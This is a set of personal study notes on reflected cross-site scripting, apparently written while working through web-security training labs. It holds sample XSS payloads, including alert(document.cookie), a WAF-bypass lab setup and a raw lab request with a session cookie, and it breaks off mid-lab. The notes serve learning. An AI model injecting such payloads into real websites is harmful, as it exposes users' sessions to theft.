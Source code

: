 ####  What is reflected cross-site scripting?
Reflected XXS arises when an application recieves data in an HTTP request and includes that data within the immediate repsonse   
in an unsafe way.  

Suppose a website has a search fucntion which recieved the user suppiled search term in a url parameter 
>https://insecure-website.com/search?term=gift

The application echoes the supplied search term in the response to this URL 
><p>You searched for: gift</p>

Assuming the application doesn't perform any other processing of the data, attackers can construct an attack like this. 
>https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>

***
#### Lab: Reflected XSS into HTML context with nothing encoded
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the blog post is viewed.
> web-security-academy.net/?search=<script>alert(1)</script>

***
#### Lab: Reflected XSS into HTML context with most tags and attributes blocked
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors. To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie. 

Observe this payload get blocked 
>Inject a standard XSS payload such as: <img src=1 onerror=alert(document.cookie)>

Get request to trouble shoot to see which tags are blocked 
> GET /?search=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E HTTP/1.1
> Host: ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net
> User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: https://ac5f1f4e1edda1b5810d0d0f00e60028.web-security-academy.net/
> Cookie: session=FkSFLXR0PyX1JqWdIIMiUQmt4O97Yg6M
> Connection: close
>Upgrade-Insecure-Requests: 1



